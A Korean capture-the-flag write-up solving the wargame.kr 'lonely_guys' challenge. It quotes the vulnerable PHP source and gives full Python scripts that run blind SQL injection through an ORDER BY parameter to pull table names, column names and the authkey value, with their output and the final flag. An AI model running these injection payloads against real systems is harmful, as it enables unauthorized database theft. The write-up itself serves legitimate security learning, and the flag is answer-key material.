


# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**



# **Write-Up**

이상한 테이블 표가 나온다.



소스를 보면 sort라는 변수에 POST로 데이터를 실어보낸다. 쿼리 결과가 row[2]까지 있는 걸 보니, 적어도 3개의 컬럼이 존재하는 것을 알 수 있다.

```php
... 생략 ...
if(isset($_POST['sort'])){
 $sort=$_POST['sort'];
}else{
 $sort="asc";
}
... 생략 ...
     <?php
      mysql_query("update authkey set authkey='".auth_code('lonely guys')."'");
      $sort = mysql_real_escape_string($sort);
      $result=mysql_query("select * from guys_tbl order by reg_date $sort");
      while($row=mysql_fetch_array($result)){
       echo "<tr><td>$row[1]</td><td>$row[2]</td></tr>";
      }
... 생략 ...
```

ORDER BY절에 사용자 입력 값이 들어가는 데, 컬럼 수를 변경하여 쿼리 실패, 성공에 대한 반환 값을 확인한다.

```python
# 쿼리 성공
import urllib
import urllib.request

url     = 'http://wargame.kr:8080/lonely_guys/'
headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; Win64; x64)', 'Content-Type': 'application/x-www-form-urlencoded'}
params  = urllib.parse.urlencode({'sort':', 2, 3, 3'}).encode()
request = urllib.request.Request(url, headers = headers, data = params)
response= urllib.request.urlopen(request)
print(response.read().decode())

[Output]
... 생략 ...
<tbody>
<tr><td>jacob</td><td>2010-07-22</td></tr><tr><td>jae-yong</td><td>2014-06-19</td></tr><tr><td>chul-su</td><td>couple</td></tr><tr><td>michael</td><td>couple</td></tr><tr><td>min-su</td><td>couple</td></tr>
</tbody>
... 생략 ...

# 쿼리 실패
import urllib
import urllib.request

url     = 'http://wargame.kr:8080/lonely_guys/'
headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; Win64; x64)', 'Content-Type': 'application/x-www-form-urlencoded'}
params  = urllib.parse.urlencode({'sort':', 2, 3, 4'}).encode()
request = urllib.request.Request(url, headers = headers, data = params)
response= urllib.request.urlopen(request)
print(response.read().decode())

[Output]
... 생략 ...
<tbody>
</tbody>
... 생략 ...
```

ORDER BY절에서 (select 1)과 같이 쿼리를 사용할 수 있다.

```sql
create table Test(id integer, title varchar(100));
insert into Test(id, title) values(1, "a");
insert into Test(id, title) values(2, "b");
select * from Test ORDER BY id, (select 1);

[Output]
id	title
1	a
2	b
```

하지만 쿼리절의 결과가 2개 행 이상일 경우 쿼리가 실패한다. 이 점을 이용하여 BlindSQLi를 시도한다.

```sql
create table Test(id integer, title varchar(100));
insert into Test(id, title) values(1, "a");
insert into Test(id, title) values(2, "b");
select * from Test ORDER BY id, (select id from Test);

[Output]
ERROR 1242 (21000) at line 5: Subquery returns more than 1 row
```

쿼리의 조합은 다음과 같다.

1. 테이블, 컬럼, 데이터를 알아오는 쿼리는 wargame.kr의 ip log table에서 사용했던 쿼리를 재사용한다.

    - select ord(substr(~ limit 0, 1), 1, 1)

2. 1번의 쿼리 결과와 ASCII code의 hex값과 맞는 지 확인한다.

    - IF("ASCII hex"="1번 쿼리", 1, 2)

3. 2번 쿼리가 참일 경우 1을 반환하고, 실패할 경우 2를 반환하는 점을 이용하여 where절로 true 혹은 false를 유도한다.

    - select reg_date from guys_tbl where 1="2번 쿼리의 결과"

4. 즉 ASCII hex값이 있다면, red_date가 뽑혀 쿼리를 실패하고, 없다면 쿼리가 성공되어 \<tbody\>내 데이터가 들어있을 것이다.

쿼리를 조합하여 다음과 같은 Python script를 작성하여 테이블명을 알아낸다. (오래 걸리니, ip log table에서 알아낸 순번 정도(약 70번 근처)로 대강 잡는다.)

```python
import urllib
import urllib.request

url     = 'http://wargame.kr:8080/lonely_guys/'
headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; Win64; x64)', 'Content-Type': 'application/x-www-form-urlencoded'}

start_num = 70
for i in range(start_num, start_num+20):
    table_name = ''
    for j in range(1, 50):
        old_len = len(table_name)
        for ascii_hex_value in range(32, 127):
            params  = urllib.parse.urlencode({'sort':', (select reg_date from guys_tbl where 1=IF({0}=(select ord(substr((select table_name from information_schema.tables limit {1},1),{2},1))), 1, 2))'.format(ascii_hex_value, i, j)}).encode()
            request = urllib.request.Request(url, headers = headers, data = params)
            try:
                response        = urllib.request.urlopen(request)
                if 'jacob' not in response.read().decode():
                    table_name += chr(ascii_hex_value)
                    break
            except Exception as e:
                print(e)
        if old_len == len(table_name): break
    if table_name == '': break
    print('[{}] {}'.format(i, table_name))

[Output]
[70] authkey
[71] guys_tbl
```

소스코드상의 authkey와 일치하여 컬럼 명까지는 알아내지 않아도 괜찮을것 같지만 혹시 모르니 컬럼명도 알아낸다.

```python
... 생략 ...
start_num = 690
... 생략 ...
            params  = urllib.parse.urlencode({'sort':', (select reg_date from guys_tbl where 1=IF({0}=(select ord(substr((select column_name from information_schema.columns limit {1},1),{2},1))), 1, 2))'.format(ascii_hex_value, i, j)}).encode()
... 생략 ...

[Output]
[690] IO_FIX
[691] IS_OLD
[692] FREE_PAGE_CLOCK
[693] space_id
[694] page_id
[695] start_lsn
[696] end_lsn
[697] authkey
[698] idx
[699] name
[700] reg_date
```

authkey테이블의 authkey컬럼에 들어있는 데이터를 알아낸다.

```python
... 생략 ...
start_num = 0
... 생략 ...
            params  = urllib.parse.urlencode({'sort':', (select reg_date from guys_tbl where 1=IF({0}=(select ord(substr((select authkey from authkey limit {1},1),{2},1))), 1, 2))'.format(ascii_hex_value, i, j)}).encode()
... 생략 ...

[Output]
[0] 5f988cfe64fd6f3b4c31e6cb56421688bda3d88e
```


# **FLAG**

**5f988cfe64fd6f3b4c31e6cb56421688bda3d88e**